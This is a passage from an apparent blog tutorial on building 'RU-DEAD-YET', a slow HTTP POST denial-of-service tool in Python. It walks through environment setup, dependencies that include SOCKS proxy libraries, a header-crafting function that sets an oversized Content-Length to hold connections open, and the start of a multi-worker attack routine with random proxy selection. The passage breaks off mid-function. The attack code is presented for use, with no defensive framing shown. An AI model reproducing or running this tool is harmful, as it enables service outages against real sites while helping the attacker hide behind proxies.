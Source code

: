 Let's then activate our virtual environment:

{% highlight bash %}

. env/bin/activate

{% endhighlight %}

Next we create two new files - pip.req and run.py:

{% highlight bash %}

touch pip.req run.py

{% endhighlight %}

We then open up our pip.req file and add these lines to enumerate dependencies:

	requests
	requesocks
	beautifulsoup4
	SocksiPy

Finally, we use pip to install all of the dependencies we just listed in our pip.req file:

{% highlight bash %}

pip install -r pip.req

{% endhighlight %}

# Building RU-DEAD-YET - Core Logic

{% highlight python %}
def craft_headers(path, host, user_agent, param, cookies):

    return '\n'.join([

        'POST %s HTTP/1.1' % path,
        'Host: %s' % host,
        'Connection: keep-alive',
        'Content-Length: 100000000',
        'User-Agent: %s' % user_agent,
        'cookies',
        '%s=' % param, 
    ])
{% endhighlight %}

Let's open up run.py. The first thing we want to do is create a function to craft the special HTTP headers we'll be using for this attack. Notice how the Content-Length field is ridiculously long. This is super long Content-Length is one of the keys to getting this DOS attack to work. We also send the start of our POST parameter, but without sending any actual content.


{% highlight python %}
def launch_attack(cid, configs, headers):

    try:

        # establish initial connection to target
        print '[worker %d] Establishing connection' % cid

        # if we're using proxies, then we use socksocket() instead of socket()
        if 'proxies' in configs:

            # select proxy
            proxy = random.choice(configs['proxies'])